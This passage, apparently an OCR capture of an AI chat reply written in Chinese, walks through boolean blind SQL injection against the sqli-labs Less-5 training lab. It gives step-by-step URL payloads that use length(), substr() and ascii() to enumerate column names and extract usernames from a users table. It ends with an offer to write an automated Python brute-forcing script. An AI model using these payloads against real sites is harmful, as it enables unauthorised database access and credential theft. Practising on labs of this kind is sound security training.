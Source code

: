 ```

✅ 如果成立，说明第一个字符 ASCII=117 (`u`)，可能就是 `users`。

------

## 🔎 第四步：枚举列名

比如表 `users`：

```
?id=1' and length((select column_name from information_schema.columns where table_name='users' limit 0,1))=8 --+
```

猜到列名长度。

再猜字符：

```
?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=117 --+
```

慢慢拼出列名（如 `username`、`password`）。

------

## 🔎 第五步：获取数据

比如第一条用户：

```
?id=1' and length((select username from users limit 0,1))=5 --+
?id=1' and ascii(substr((select username from users limit 0,1),1,1))=68 --+
```

拼出来就是 `Dumb`。

------

⚡ 总结：

1. **用布尔真假差异**来枚举 → 数据库名 → 表名 → 列名 → 数据。
2. 常用函数：`length()`、`substr()`、`ascii()`。
3. 流程跟你写的那两个 SQL (`LENGTH` + `table_name`) 一样，只是逐层扩展。

------

要不要我帮你写一套 **针对 Less-5 的完整 SQL 注入盲注 payload 脚本**（比如用 Python 自动跑，逐字符爆破）？
